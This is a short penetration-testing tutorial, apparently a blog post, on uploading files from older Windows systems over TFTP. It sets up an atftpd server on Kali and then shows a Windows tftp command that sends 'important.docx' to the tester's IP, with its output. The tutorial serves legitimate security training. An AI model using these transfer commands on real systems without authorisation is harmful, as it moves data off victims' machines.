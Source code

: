 ```yaml
---
description: >-
  Uploading files using TFTP (older Windows Systems)
title: Uploading files using TFTP (older Windows Systems)              # Add title here
date: 2022-11-09 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Uploading files using TFTP (older Windows Systems)]                     # Change Templates to Writeup
tags: [file transfer, tftp upload]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

During a penetration test, we can use TFTP to transfer files from older Windows operating systems up to Windows XP and 2003. This is a terrific tool for non-interactive file transfer, but it is not installed by default on systems running Windows 7, Windows 2008, and newer.

For these reasons, TFTP is not an ideal file transfer protocol for most situations, but under the right circumstances, it has its advantages.

Before we learn how to transfer files with TFTP, we first need to install and configure a TFTP server in Kali and create a directory to store and serve files. Next, we update the ownership of the directory so we can write files to it. We will run atftpd as a daemon on UDP port 69 and direct it to use the newly created /tftp directory:

```bash
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

On the Windows system, we will run the tftp client with -i to specify a binary image transfer, the IP address of our Kali system, the put command to initiate an upload, and finally the filename of the file to upload.

The final command is similar to the one shown below in Listing 33:

```powershell
C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s
```

